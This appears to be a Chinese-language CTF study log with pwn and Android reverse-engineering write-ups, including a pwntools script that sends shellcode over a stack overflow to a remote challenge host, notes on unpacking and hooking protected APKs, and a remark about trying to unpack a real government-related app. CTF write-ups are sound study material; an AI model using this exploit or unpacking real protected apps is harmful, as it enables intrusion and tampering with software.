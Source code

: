 # PWN

## 简单的数学题

![bc6746b42bfbe77714e94f6d141e6cd7.png](https://cdn.nlark.com/yuque/0/2024/png/39264722/1709302711015-17c62530-aa3c-4fb1-adf0-e3e11380c01b.png)

![65a142b9d40f28cbd60dd51ed3b67d9f.png](https://cdn.nlark.com/yuque/0/2024/png/39264722/1709302713323-8412c16e-cb16-46f9-b771-8032f5cab12e.png)



## Easy_Shellcode

![4b8a236fefa98beb830fcd5e9bd10bc2.png](https://cdn.nlark.com/yuque/0/2024/png/39264722/1709303823926-fe4200f9-0308-4043-bfbd-b1fd5c904642.png)

运行一下，给了个地址

拖ida看到这个地址是在栈上的

![8bd98d5fe8f452aa5c0a9e258ec13731.png](https://cdn.nlark.com/yuque/0/2024/png/39264722/1709303902539-47fadd2f-d6af-4e6c-b402-54a4dced67bc.png)

所以直接往这个地址写入我们的shellcode就可以了

```python
from pwn import*
context(os='linux', arch='amd64', log_level='debug')
#p = process('./shellcode')
p=remote('challenge.qsnctf.com', 30549)

addr = int(p.recv(14), 16)

payload = asm(shellcraft.sh())
p.sendline(payload.ljust(264, b'a') + p64(addr))

p.interactive()
```



# 安卓逆向题目

## [网鼎杯 2020 青龙组]bang

梆梆加固免费版，脚本脱壳即可看到flag

![2f2fefc387715636c90e6391cf8d901c](C:\Users\Lenovo\Documents\Tencent Files\1253016986\nt_qq\nt_data\Pic\2024-03\Ori\2f2fefc387715636c90e6391cf8d901c.jpg)





## [SWPU 2019]easyapp

先看关键部分

![3eb82f6aa9c3352d3575218cba147276](C:\Users\Lenovo\Documents\Tencent Files\1253016986\nt_qq\nt_data\Pic\2024-03\Ori\3eb82f6aa9c3352d3575218cba147276.jpg)

这里是对比密码和Encrypt的返回值，来判断是否登录成功，所以我们直接用算法助手hook这个Encrypt函数即可

![5148200c940b97b0876b0d891a9dcf7f](C:\Users\Lenovo\Documents\Tencent Files\1253016986\nt_qq\nt_data\Pic\2024-03\Ori\5148200c940b97b0876b0d891a9dcf7f.png)

但是我手机还是会闪退，估计是安卓系统等级有点高哈哈，但是理论上是可以解出的捏

# 学习

然后学着写了自己的一些东西，读取文件md5值。这个我初步的设想是用来保护apk防二次签名的，因为安装的时候，java层可以读取到apk的签名信息，而c就没这么容易了，但是在安装的时候会生成一个apk的存放目录/data/app/com.xxx.xxx/base.apk，所以我就想到可以读这个目录来获取md5，然后给java层传回去

```java
public class Welcome extends Activity {

    static {
        System.loadLibrary("md5");
    }

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        String apkPath = getApplicationInfo().sourceDir;
        getApkMD5(apkPath);
    }

    public native void getApkMD5(String apkPath);
}
```

这是在java层，把/data/app/那个具体的路径传给c，然后让c去读md5即可。

下面是c的计算指定路径文件的md5的例子

```c
#include <stdio.h>
#include <stdlib.h>
#include "Encrypt.h"

#define MAX_BUF_SIZE 1024

int main() {
    FILE *fp;
    char buffer[MAX_BUF_SIZE];
    MD5_CTX md5_context;
    unsigned char md5_digest[16];

    fp = fopen("/data/app/com.xxx.xxx/base.apk", "rb");
    if (fp == NULL) {
        printf("Error opening file.\n");
        return 1;
    }

    MD5Init(&md5_context);

    size_t bytes_read;
    while ((bytes_read = fread(buffer, 1, MAX_BUF_SIZE, fp)) > 0) {
        MD5Update(&md5_context, (unsigned char *)buffer, bytes_read);
    }

    MD5Final(&md5_context, md5_digest);

    fclose(fp);

    char* md5_hex = ByteToHex(md5_digest, 16);
    printf("MD5 Digest: %s\n", md5_hex);
}
```

有些人可能会想，弄这么复杂干嘛，不如直接在java多方便。还是那句话，不安全。



# 任务

另外还是忙了一天的"中国领事"

腾讯御安全是真的拉跨

<img src="C:\Users\Lenovo\Documents\Tencent Files\1253016986\nt_qq\nt_data\Pic\2024-03\Ori\a2244d7426681488694a1e443215a383.jpg" alt="a2244d7426681488694a1e443215a383" style="zoom: 50%;" />

还是没想通为啥与国家相关的一个app，要嫖腾讯御安全免费版，可是就连我们用来洗澡的趣智校园都舍得买付费版网易易盾。真就xxx。。。。。

尝试修复回填，失败了，应该是没修好，反正应该废了。。。。